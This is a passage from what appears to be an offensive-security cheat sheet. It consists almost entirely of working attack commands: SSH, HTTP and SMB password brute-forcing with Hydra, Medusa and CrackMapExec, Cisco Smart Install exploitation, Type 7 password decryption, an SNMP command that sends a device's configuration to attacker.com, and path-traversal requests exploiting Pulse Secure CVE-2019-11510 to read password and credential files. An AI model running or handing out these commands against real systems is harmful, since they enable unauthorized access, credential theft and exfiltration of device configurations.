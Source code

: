 ```bash
# Hydra brute force
hydra -L users.txt -P passwords.txt ssh://target.com
hydra -l admin -P passwords.txt http-get://target.com

# Medusa
medusa -h target.com -u admin -P passwords.txt -M ssh

# CrackMapExec (for Windows devices)
crackmapexec smb target.com -u admin -p passwords.txt
```

### 2. Cisco-Specific Attacks

**Smart Install Exploitation**
```bash
# Detect Smart Install
nmap -p 4786 --script cisco-smart-install target.com

# Exploit with SIET (Smart Install Exploitation Tool)
siet.py -i target.com -g  # Get config
siet.py -i target.com -c "show version"  # Execute command
```

**Type 7 Password Cracking**
```bash
# Cisco Type 7 passwords are weakly encrypted
# Example: 094F471A1A0A
# Online tools or scripts can decrypt these instantly

# Python script
python cisco_type7_decrypt.py 094F471A1A0A
```

**SNMP Config Download**
```bash
# Download configuration via SNMP
snmpset -v 2c -c private target.com \
  1.3.6.1.4.1.9.9.96.1.1.1.1.2.111 i 1 \
  1.3.6.1.4.1.9.9.96.1.1.1.1.3.111 i 4 \
  1.3.6.1.4.1.9.9.96.1.1.1.1.4.111 a attacker.com \
  1.3.6.1.4.1.9.9.96.1.1.1.1.5.111 s config.txt
```

### 3. VPN Exploitation

**Pulse Secure CVE-2019-11510**
```bash
# Arbitrary file read
curl "https://target.com/dana-na/../dana/html5acc/guacamole/../../../../../../etc/passwd?/dana/html5acc/guacamole/"

# Extract credentials
curl "https://target.com/dana-na/../dana/html5acc/guacamole/../../../../../../data/runtime/mtmp/system?/dana/html5acc/guacamole/"
```
